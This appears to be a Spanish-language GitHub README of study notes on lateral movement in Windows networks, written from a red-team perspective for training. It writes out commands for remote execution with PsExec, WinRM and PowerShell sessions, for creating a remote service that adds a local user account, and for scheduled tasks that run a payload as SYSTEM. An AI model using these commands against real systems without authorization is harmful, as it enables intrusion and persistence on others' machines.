 # Introducción

En este repo aprenderemos sobre movimiento lateral y técnicas que usan los atacantes para moverse alrededor de la red haciendo las menores alertas posbiles. Aprenderemos tecnicas.

# Moverse alrededor de la red

Simplemente el movimiento lateral, es un grupo de tecnicas que usan los atacantes para moverse alrededor de la red. Una vez el atacante a ganado acceso a la máquina, es esencial el movimiento entre redes. 

## Un pequeño ejemplo

Suponemos que somos de "red team" y finalmente nos hemos metido en el código de un repositorio, donde tenemos un target en la red comprometido usando phising. (es el más efectivo)

![image](https://github.com/user-attachments/assets/c85a7bc1-24bd-4f49-8480-ae1aae192c27)

## La perspectiva del atacante

Hay unos "Pasos" que seguir a la hora de hacer movimientos laterales. Simplemente debemos entender protocolos administrativos como WinRM, RDP, VNC o SSH para conectanos a otras maquinas de la red. 

Como atacantes tenemos que ser buenos y meternos en retos contra los blue teams

## Administradores y UAC

Mientras hacemos movmimientos laterales, podemos usar credenciales de administrador pero hay que tener mucho cuidado con esto. es mejor usarç

- CUentas locales
- CUentas de dominio

La diferentes son las restricciones de la (UAC) en caso de querer movernos o hacer comandos necesarios.

# Crear procesos remotamente

## Psexec

- Puerto : 445/TCP (SMB)
- Administrador

Psexec es un metodo para ejectuar procesos remotamente por años. Coge al administrador y ejecuta comandos remotamente al ordenador que tiene acceso.
Psexec es una de las herramientas de sysinternals descarga [aquí](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

Los procesos o pasos a seguir:

- Conectarse con el Admin$ carpeta que podemos subir el binario. Se ejecuta como "psexecvc.exe"
- Conectar al servicio de control y ejecutar dicho servicio en "C:\Windows\psexesvc.exe"
- Crear

![image](https://github.com/user-attachments/assets/d0c4e6f7-4b71-4100-999e-71733c7e080f)

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

## Proceso de creacion usando WinRM

- Puerto 5985/TCP (WindRM HTTP) o 5986/TCP (WinRM HTTPS)
- Remote Management Users

- Este protocolo esta basado en web se usa para mandar "Powershell" comands para los hosts de windows.

 ```
windrx.exe -u:Adminsitrator -p:Mypass123 -r:target cmd
 ```

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

```
Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

## Crear servicios usando sc

- Puertos 135/TCP 49152-65535/TCP (DCE/RCP)
- Puertos 445/TCP (RCP O SMB)
- Puertos 139/TCP (RCP O SMB)
- Miembros grupo : Administradores

1- Nos conectamos usando DCE/RCP. El cliente se conecta al endpoint, el servidor cataloga que hay un RCP abiert. Responde con una IP y un rango de puertos

![image](https://github.com/user-attachments/assets/d5505fd7-6e15-43b9-b023-68eb9a980ef2)

2- Si la conexión falla, los nombre SMB se guarda.

![image](https://github.com/user-attachments/assets/d1dac505-470d-4ede-8e0d-3904a77eae28)

Podemos crear y ejecutar un servicio

```
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

El "net user" comando se ejecuta cuando el servicio empieza, creando un suario local en el sistema. El operador de sistema empieza el servicio.

Para parar el servicio y borrarlo

```
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

## Crear servicio remotamente controlados

Otra característica de windows son las tareas programas:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1"
```
```
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```




